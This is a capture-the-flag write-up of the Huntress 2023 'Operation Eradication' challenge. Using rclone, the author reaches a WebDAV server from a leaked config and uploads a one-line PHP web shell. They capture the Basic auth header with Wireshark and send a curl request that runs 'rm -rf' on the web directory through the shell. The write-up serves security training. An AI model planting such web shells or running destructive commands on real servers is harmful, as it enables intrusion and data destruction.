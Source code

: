 ```yaml
---
title: "Operation Eradication"
description: "Oh no! A ransomware operator encrypted an environment, and exfiltrated data that they will soon use for blackmail and extortion if they don't receive payment!"
from: "huntress (2023)"
date: "2023-10-14"
type: "ctf"
tags: ["malware", "web"]
---
```


# Operation Eradication

<aside>
Oh no! A ransomware operator encrypted an environment, and exfiltrated data that they will soon use for blackmail and extortion if they don't receive payment!
<strong>They stole our data!</strong>
Luckily, we found what looks like a configuration file, that seems to have credentials to the actor's storage server... but it doesn't seem to work. Can you get onto their server and
delete all the data they stole!?
</aside>


The challenge gives us a containerized HTTP server instance, alongside a file with no extension named simply `operation_eradication`.
Passing it as an argument to the file command reveals it's just plain ASCII text. Viewing its contents, we are presented with the following:

```toml
type = webdav
url = http://localhost/webdav
vendor = other
user = VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r
pass = HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5
```

After a bit of Googling, we can ascertain that the remote server is likely running a WebDAV ("Web-Distributed Authoring and Versioning") protocol service, which is effectively a
(apparently now-obselete) type of network-accessible file storage service. As indicated by the config's `url` param, we are able to access the service's front-end by adjusting the `localhost`
SLD to our assigned instance: `http://chal.ctf.games:30236/webdav`. The page is simply a blank white screen, so I assume we need to authenticate before we are able to see
the _actual_ content (though nothing indicates this explicitly).

After briefly reviewing WebDAV documentation alongside the tech stack used on the WebDAV endpoint, we can see the server accepts authentication via a `Basic` Authorization header, which we can craft by running
`echo -n <username>:<password> | base64 --wrap=0` in a bash terminal, replacing the `<username>` and `<password>` strings with the user's authentication info.

![1](/img/operation_eradication_img/Untitled.png)
>The root endpoint

![Untitled](/img/operation_eradication_img/Untitled%201.png)
>The `/webdav` endpoint

To me, those `user` and `pass` strings look like they've been hashed or encrypted, but we can try to make a GET request using the strings as the username and password anyway:
```bash
# base64-encode `username:password`
USER_AUTH=$(echo -n "VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r:HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5" | base64 --wrap=0)

# make a request
curl http://chal.ctf.games:30236/webdav
   -H "Authorization: Basic $USER_AUTH"
```

As expected, this isn't correct.

![Untitled](/img/operation_eradication_img/Untitled%202.png)

We can try to do a bit of hashcracking & decryption, but we have no idea how these strings have been hashed - the `user` and `pass` strings are 72 characters long (i.e they don't look like a common hash type), and online hash analysis tools, Google, and ChatGPT similarly have no clue.
We can instead Google the config file's layout, and find that it (probably) belongs to a WebDAV client CLI tool named `Rclone`.

Downloading Rclone, I was unable to simply dump the provided configuration file into the corresponding Rclone folder, but we can instead run through the setup to create our own (empty) config file,
and then replace it's content with that of the provided file:

```powershell
.\\rclone config

# ...
# this runs us through a config setup wizard...
# ...

Current remotes:

Name                 Type
====                 ====
huntress             webdav

# ...

s) Set configuration password
q) Quit config
e/n/d/r/c/s/q> q

# then replace it's contents with our desired config
# (don't forget that the service isn't running locally):

echo "[huntress]
type = webdav
url = http://chal.ctf.games:30236/webdav
vendor = other
user = VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r
pass = HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5" > C:\\Users\\pls\\AppData\\Roaming\\rclone\\rclone.conf

cat C:\\Users\\pls\\AppData\\Roaming\\rclone\\rclone.conf
[huntress]
type = webdav
url = http://chal.ctf.games:30236/webdav
vendor = other
user = VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r
pass = HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5
```

Having never used Rclone or interacted with a WebDAV service, it took a moment to get used to the commands and how we are meant to interact with a WebDAV service.
Essentially, we don't have to login and use an interactive shell like we might over SSH or FTP; rather, we simply indicate what config to use and run the command.

Lets try listing the WebDAV’s contents to see if our configuration works:

```powershell
.\\rclone tree huntress:
/
├── Accounting
│   ├── 2021
│   │   └── AnnualReport.pdf
│   ├── 2022
│   │   ├── Quarter1_MonthlyRevenue.xlsx
# ...
│   └── Training
│       ├── 2022
│       │   ├── AdvancedSalesSkillsCourse.pdf
│       │   └── NewSalesRepTraining.pdf
│       └── SalesTrainingManual.pdf
```

Looks like its functional. Unfortunately, we - or, rather, our WebDAV credentials - do not have the necessary permissions to run `.\\rclone delete huntress:/`.

We do, however, have write permissions, and so we are able to upload and save files onto the machine.

As is my immediate thought with any PHP service during a CTF, we are probably meant to gain code execution as `www-data` (who would usually have ownership of `/var/www/html/`, which likely contains the `/webdav` endpoint),
so my immediate thought is that we can try to execute code through a PHP script.

As previously stipulated, Rclone/WebDAV is non-interactive, so we’ll have to try to run something from the HTTP service. The service isn't locally available either, so the remote machine probably can't issue a direct call to our
machine, and we would need to run a tunnel via `ngrok` or something, and I honestly don’t want to overcomplicate the task when we can do what we want via a PHP `cmd` script and pass the server shell commands in GET request parameters:

```php
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```
> A simple PHP script that will run commands on the remote machine via the `system($cmd)` builtin, where `$cmd` is defined through a URL GET request parameter.

After copying the cmd script over, we can see that it has been successfully written to the root directory of the WebDAV endpoint:

```powershell
.\\rclone copy C:\\...\\exec.php huntress:/
.\\rclone ls huntress:/
       50 exec.php
  1745724 ProductDevelopment/2022/ProductRoadmap.pdf
  3570194 ProductDevelopment/2023/ProductRoadmap.pdf
  3510400 HumanResources/EmployeeHandbook.pdf
  7680849 ProductDevelopment/Specifications/NewProductSpecs.pdf
  3891213 ProductDevelopment/Specifications/UpdatedProductSpecs.pdf
  ...
```

We are now missing one final piece before we can wipe the endpoint - we still don’t have the authentication info, and the approach I am taking requires that we make a request _without_ Rclone.

Because the service uses unencrypted HTTP, we can intercept traffic routed between Rclone and WebDAV using Wireshark, resulting in the following:

```powershell
PROPFIND /webdav/ HTTP/1.1
Host: chal.ctf.games:30236
User-Agent: rclone/v1.64.2
Authorization: Basic VkFIeWNZaEsyYXc5VE5GR1NwTWYxYl8yWk5uWnVBTmNJOC0yNmF3R0xZa3dSekp3UF9idU5zWjFlUXdSa21qUW1WenhNZTVyOlN1cGVyRXh0cmVtZWx5U2VjdXJlUGFzc3dvcmRMaWtlQWx3YXlz
Depth: 1
Referer: http://chal.ctf.games:30236/webdav/
Accept-Encoding: gzip
```
> Intercepted header information from a `.\\rclone ls huntress:/` command.

We can now use `curl` to execute `bash -c "rm -rf <[the webdav endpoint]>...";`  as a `GET` param passed to the `exec.php` file we just uploaded - I’ve included an additional `echo 'done'` command after running `rm -rf` just to
ensure I know whether or not we executed any commands, as a sanity check if something doesn't end up working.

Realistically, though, we are just querying the script we uploaded, and using the URL param `?cmd=..` to open a bash shell and literally just execute bash commands. There is the authentication stuff here, but that was basically
pre-generated by Wireshark anyway.

The final request (along with it's response) is as follows:

```bash
curl -i -s -k -X $'GET' \\
    -H $'Host: localhost' -H $'User-Agent: rclone/v1.64.2' \\
    -H $'Authorization: Basic VkFIeWNZaEsyYXc5VE5GR1NwTWYxYl8yWk5uWnVBTmNJOC0yNmF3R0xZa3dSekp3UF9idU5zWjFlUXdSa21qUW1WenhNZTVyOlN1cGVyRXh0cmVtZWx5U2VjdXJlUGFzc3dvcmRMaWtlQWx3YXlz' \\
		-H $'Depth: 1' -H $'Referer: http://chal.ctf.games:30236/webdav/' -H $'Accept-Encoding: gzip' -H $'Content-Type: application/x-httpd-php' \\
    $'http://chal.ctf.games:30236/webdav/exec.php?cmd=bash+-c+\\"rm+-rf+/var/www/html/webdav/*;+echo+\\'done.\\'\\"'

HTTP/1.1 200 OK
Date: Fri, 20 Oct 2023 18:24:02 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Vary: Accept-Encoding
Content-Encoding: gzip
Transfer-Encoding: chunked
Content-Type: text/html; charset=UTF-8
```

We can go back and refresh the webapp's root directory, where we are presented with our flag:

![Untitled](/img/operation_eradication_img/Untitled%203.png)

